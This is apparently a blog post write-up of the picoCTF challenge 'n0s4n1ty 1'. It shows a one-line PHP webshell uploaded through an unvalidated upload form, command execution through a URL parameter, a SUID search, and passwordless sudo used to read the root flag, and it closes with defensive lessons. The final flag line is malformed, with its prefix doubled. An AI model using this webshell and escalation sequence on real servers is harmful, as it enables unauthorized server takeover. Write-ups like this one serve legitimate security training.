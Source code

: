 ```yaml
---
layout: post
title: "picoCTF - n0s4n1ty 1"
date: 2025-04-20
categories: [CTF, Web, picoCTF, File Upload, RCE]
---
```


## Overview

This picoCTF challenge presented a PHP-based web server with a file upload feature. I identified a lack of file validation, which allowed me to upload a malicious PHP webshell, gain Remote Code Execution (RCE), and eventually escalate privileges to capture the flag.

---

## Step 1: Initial Recon

The server allowed file uploads without strong validation. I suspected it lacked MIME type or file content checks.
![Initial Recon](/assets/img/picoctf/noinsanity1/img1.png)

I created a simple PHP webshell:

**shell.php**

```php
<?php system($_GET['cmd']); ?>
```

I uploaded the file successfully and accessed it at:
![Shell Upload](/assets/img/picoctf/noinsanity1/img2.png)

```
http://standard-pizzas.picotf.net:57142/uploads/shell.php
```

---


## Step 2: Gaining Remote Code Execution

To verify code execution, I ran:

```
http://standard-pizzas.picotf.net:57142/uploads/shell.php?cmd=ls+-al
```
![RCE Success](/assets/img/picoctf/noinsanity1/img3.png)

The output showed that commands were executed on the server under the `/uploads` directory as the `www-data` user.

---

## Step 3: Privilege Escalation

### 1. Search for SUID Binaries

I ran this to check which binaries run as their owner (usually root) regardless of who executes them:

```bash
find / -perm -4000 -type f 2>/dev/null
```

Key result:

```
/usr/bin/sudo
```
![SUID Results](/assets/img/picoctf/noinsanity1/img4.png)


### 2. Check Sudo Permissions

```bash
sudo -l
```

Output:

```
(ALL) NOPASSWD: ALL
```
![Sudo Permissions](/assets/img/picoctf/noinsanity1/img5.png)


This meant I could run **any command as root** with `sudo` and **no password required**.

### 3. Read the Flag

```bash
sudo cat /root/flag.txt
```

Flag obtained 🎯

```
picoCTF{example_flag_here}
```

---

## Conclusion

This challenge was a great example of a classic **file upload vulnerability** that led to full **server takeover**. Once RCE was achieved via a PHP shell, enumeration and misconfigured sudo permissions allowed for **easy privilege escalation**.



Lessons:

- Always validate uploaded file types and contents.
- Disable execution permissions in upload directories.
- Restrict `sudo` access tightly.

**Flag:** `picoCTF{picoCTF{example_flag_here}}`

